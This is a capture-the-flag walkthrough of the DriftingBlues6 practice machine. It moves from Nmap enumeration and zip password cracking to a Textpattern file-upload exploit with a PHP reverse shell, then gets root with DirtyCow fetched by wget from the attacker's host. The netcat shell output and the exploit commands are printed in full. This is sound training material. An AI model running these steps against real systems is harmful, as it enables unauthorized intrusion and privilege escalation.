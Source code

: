 # PG Play - DriftingBlues6

#### Ip: 192.168.156.219
#### Name: DriftingBlues6
#### Difficulty: Easy
#### Community Rating: Intermediate

----------------------------------------------------------------------

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. Here I'll also use the `sC` and `-sV` flags to use basic scripts and to enumerate versions.

```text
┌──(ryan㉿kali)-[~/PG/DriftingBlues6]
└─$ sudo nmap -p-  --min-rate 10000 192.168.156.219 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-01 14:49 CDT
Nmap scan report for 192.168.156.219
Host is up (0.072s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.2.22 ((Debian))
| http-robots.txt: 1 disallowed entry 
|_/textpattern/textpattern
|_http-title: driftingblues
|_http-server-header: Apache/2.2.22 (Debian)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.87 seconds
```

Heading to the site we find a simple page:

![site.png](../assets/driftingblues6_assets/site.png)

And navigating to the `/textpattern/textpattern` found in robots.txt in the Nmap results, we find a login page:

![text.png](../assets/driftingblues6_assets/text.png)

Lets kick off some directory fuxxing against the site ( note: I'm using the `--filter-status 404` flag because I was getting a ton of 404s returning:

![ferox.png](../assets/driftingblues6_assets/ferox.png)

Spammer seems interesting. Navigating to 192.168.156.219/spammer I'm prompted to download a file called spammer.zip. 

```text
┌──(ryan㉿kali)-[~/PG/DriftingBlues6]
└─$ file spammer.zip 
spammer.zip: Zip archive data, at least v2.0 to extract, compression method=store
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/DriftingBlues6]
└─$ unzip spammer.zip                            
Archive:  spammer.zip
[spammer.zip] creds.txt password: 
```

Looks like it is indeed a zip file, and it looks like it may hold credentials. Unfortunately it's password protected. 

Lets crack the password using fcrackzip:

![fcrack.png](../assets/driftingblues6_assets/fcrack.png)

Cool, we now have the password, lets unzip it:

```text
┌──(ryan㉿kali)-[~/PG/DriftingBlues6]
└─$ unzip spammer.zip                                              
Archive:  spammer.zip
[spammer.zip] creds.txt password: 
 extracting: creds.txt               
                                                                                                                             
┌──(ryan㉿kali)-[~/PG/DriftingBlues6]
└─$ cat creds.txt   
mayer:lionheart
```

Nice, we were able to use these credentials to login to the textpattern webpage:

![login.png](../assets/driftingblues6_assets/login.png)

### Exploitation

Looking at possible vulnerabilities here, I find the following: https://www.exploit-db.com/exploits/50415

This is interesting because it tells us we can upload malicious files to the server, and just as importantly where those files are saved.

![exploit.png](../assets/driftingblues6_assets/exploit.png)

Lets try and use PentestMonkey's php-reverse-shell.php here rather than just a webshell.

First we'll need to update the IP and port we'll be listening on in the script:

![php.png](../assets/driftingblues6_assets/php.png)

Then we can upload it to the file section of the page:

![upload.png](../assets/driftingblues6_assets/upload.png)

Next, after setting up a NetCat listener, we can trigger the exploit by navigating to http://192.168.156.219/textpattern/files/php-reverse-shell.php

The page should just hang, and if we check our listener, we can confirm we've caught the shell back:

```text
┌──(ryan㉿kali)-[~/PG/DriftingBlues6]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.45.177] from (UNKNOWN) [192.168.156.219] 50231
Linux driftingblues 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64 GNU/Linux
 15:14:32 up  2:03,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
driftingblues
```

Interesting, it appears there are no low-level users in the `/home` directory. Lets just go straight for root here.

### Privilege Escalation

Lets go ahead and transfer over LinPEAS to help with enumerating a privilege escalation vector:

![transfer.png](../assets/driftingblues6_assets/transfer.png)

Linpeas finds the box is likely vulnerable to DirtyCow.

![dc.png](../assets/driftingblues6_assets/dc.png)

Lets give it a shot:

```text
www-data@driftingblues:/tmp$ wget http://192.168.45.177/dirtycow.c
--2023-09-01 15:24:57--  http://192.168.45.177/dirtycow.c
Connecting to 192.168.45.177:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4814 (4.7K) [text/x-csrc]
Saving to: `dirtycow.c'

100%[======================================>] 4,814       --.-K/s   in 0.007s  

2023-09-01 15:24:57 (715 KB/s) - `dirtycow.c' saved [4814/4814]

www-data@driftingblues:/tmp$ gcc -pthread dirtycow.c -o dirty -lcrypt
www-data@driftingblues:/tmp$ chmod +x dirty
www-data@driftingblues:/tmp$ ./dirty
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password: 
Complete line:
firefart:fijI1lDcvwk7k:0:0:pwned:/root:/bin/bash

mmap: 7f3648232000
^C
www-data@driftingblues:/tmp$ su firefart
Password: 
firefart@driftingblues:/tmp# whoami
firefart
firefart@driftingblues:/tmp# id
uid=0(firefart) gid=0(root) groups=0(root)
firefart@driftingblues:/tmp# cd /root
firefart@driftingblues:~# pwd
/root
```

Nice that worked! Lets grab the final flag:

![root_flag.png](../assets/driftingblues6_assets/root_flag.png)

Thanks for following along!

-Ryan

---------------------------------------------------------------------
